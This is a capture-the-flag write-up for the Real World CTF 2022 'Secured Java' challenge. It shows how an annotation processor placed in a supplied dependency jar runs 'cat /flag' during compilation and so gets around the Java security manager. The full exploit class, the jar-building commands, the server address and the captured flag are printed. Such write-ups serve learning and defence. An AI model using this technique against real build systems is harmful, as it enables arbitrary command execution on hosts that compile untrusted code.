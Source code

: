# Real Wolrd CTF 2022

## Secured Java

> Found a way to run untrusted java code
> nc 139.224.248.65 1337

## Analysis

The challenge consists of a single python file that receives a Main.java and the dep.jar (jar containing the dependencies required for main to run). Then it compiles the Main class and runs it with the security manager and with 0 permissions on the code.

## Exploit

This is an easy challenge if you are very familiar with java's jar files. Since I wasn't it took me a while to discover the solution. The security manager won't allow us to do anything and there isn't any known ways to bypass it. Therefore, our solution can't rely on running our Main class.
However, in a jar file, you can specify a class to create other source files at compile time. Meaning that it will execute our code without the security manager, just like we needed.
All the classes that execute at compile time need to extend AbstractProcessor.

```java
import java.util.*;
import java.io.*;
import javax.lang.model.*;
import javax.lang.model.element.*;
import javax.annotation.processing.*;

public class Exploit extends AbstractProcessor{

    static {
        try{
            BufferedReader in = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cat /flag").getInputStream()));
             System.out.println(in.readLine());
        }
        catch(Exception e){
            System.err.println("Err:" + e.getMessage());

        }
    }

    // These methods needs to be defined, but doesn't matter
    // as the above static block will run before anything else
    @Override
    public synchronized void init(ProcessingEnvironment env) { }
    @Override
    public boolean process(Set<? extends TypeElement> annoations, RoundEnvironment env) { return false; }
    @Override
    public Set<String> getSupportedAnnotationTypes() { return null; }
    @Override
    public SourceVersion getSupportedSourceVersion() { return null; }
  
}
```

Above is my exploit class that will be executed at compile time. The inherited methods need to be defined to ensure that the Exploit.java compiles, but aren't necessary in the exploit since the static method will be executed before any of them. The static method simply runs cat /flag and prints it to the standard output (retrieving our flag).
We our Explooit class done, we need to create the jar file. To ensure that the class will be run at runtime, we will need to put the class' name in the file META-INF/services/javax.annotation.processing.Processor and add it to the jar. The commands I ran as are follows.

```bash
javac -cp javax.jar Exploit.java
jar cvf dep.jar META-INF Exploit.class
```

This creates the dep.jar file with the Exploit class as a service. The Main.java can have anything you won't as long as it doesn't fail while compiling.
Finnaly, all there it need to be done is to send the Main.java and dep.jar to the server and get the flag

```bash
rwctf{818dd1e92a56d1badd5234367d15d563}
An annotation processor threw an uncaught exception.
Consult the following stack trace for details.
java.lang.NullPointerException: Cannot invoke "javax.lang.model.SourceVersion.compareTo(java.lang.Enum)" because "procSourceVersion" is null
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$ProcessorState.checkSourceVersionCompatibility(JavacProcessingEnvironment.java:765)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$ProcessorState.<init>(JavacProcessingEnvironment.java:704)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$DiscoveredProcessors$ProcessorStateIterator.next(JavacProcessingEnvironment.java:829)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment.discoverAndRunProcs(JavacProcessingEnvironment.java:925)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$Round.run(JavacProcessingEnvironment.java:1269)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment.doProcessing(JavacProcessingEnvironment.java:1384)
    at jdk.compiler/com.sun.tools.javac.main.JavaCompiler.processAnnotations(JavaCompiler.java:1261)
    at jdk.compiler/com.sun.tools.javac.main.JavaCompiler.compile(JavaCompiler.java:935)
    at jdk.compiler/com.sun.tools.javac.main.Main.compile(Main.java:317)
    at jdk.compiler/com.sun.tools.javac.main.Main.compile(Main.java:176)
    at jdk.compiler/com.sun.tools.javac.Main.compile(Main.java:64)
    at jdk.compiler/com.sun.tools.javac.Main.main(Main.java:50)
Compiling...
Failed to compile!
```

## Final Notes

Overall it was an interesting challenge as it was my first java exploit. Also, I now understand why it had schrodinger dificulty, since it was easy and not easy at the same time (if you knew how to run code at compile time this was an easy challenge, otherwise it proved to be a litle complicated)
